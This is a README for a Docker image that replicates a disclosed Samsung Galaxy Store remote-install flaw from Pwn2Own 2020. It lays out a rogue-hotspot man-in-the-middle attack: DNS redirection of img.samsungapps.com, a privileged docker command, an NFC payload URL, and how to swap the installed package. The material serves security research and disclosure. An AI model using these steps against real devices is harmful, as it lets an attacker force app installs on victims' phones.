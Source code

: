 # pwn2own2020-mitmInstallApp-docker

Docker image that replicates the issue disclosed at https://labs.f-secure.com/blog/samsung-s20-rce-via-samsung-galaxy-store-app/.

This PoC will:

* Host a hotspot called "yaytestyay"
* Redirect all traffic to "img.samsungapps.com" to the hotspot's default gateway IP address
* Host a web server which will host "img.samsungapps.com" traffic
* Install The Weather Channel application

Requires that your device is running the Galaxy Store version 4.5.19.13 (lower versions might work too).

To replicate this issue:

* Plug a WiFi adapter that is capable of hosting hotspots into your USB port (I used an Alfa Atheros AR9271)
* Either build this Docker image or pull the image at https://hub.docker.com/r/kengannonmwr/pwn2own2020-mitminstallapp-docker
* Run `docker run -it --privileged --add-host img.samsungapps.com:192.168.50.1 --add-host home.yay:192.168.50.1 -v /dev/bus/usb:/dev/bus/usb --net=host pwn2own2020-mitminstallapp-docker:latest`
** NOTE: the above command will put the Docker image in a privileged state, which is insecure, but I used the above command for convenience
** Run this Docker image in a throwaway VM
* In the Docker image, run the command `pwn` which will start the Apache server and host the hotspot "yaytestyay"
* Connect your phone to the hotspot "yaytestyay"

Then do one of the following:

* Browse to `http://home.yay` and click on the "malicious link"
* Create a NFC tag with the following properties and scan it:
    - Data type: `application/com.sec.android.app.samsungapps.detail`
    - Data payload: `http://apps.samsung.com/appquery/EditorialPage.as?url=http://img.samsungapps.com/yaypayloadyay.html`

If you want to change the app that gets installed, open the file `/html/yaypayloadyay.html` and modify the JavaScript so that `com.weather.samsung` is changed to a different package name that is available on the Galaxy Store.
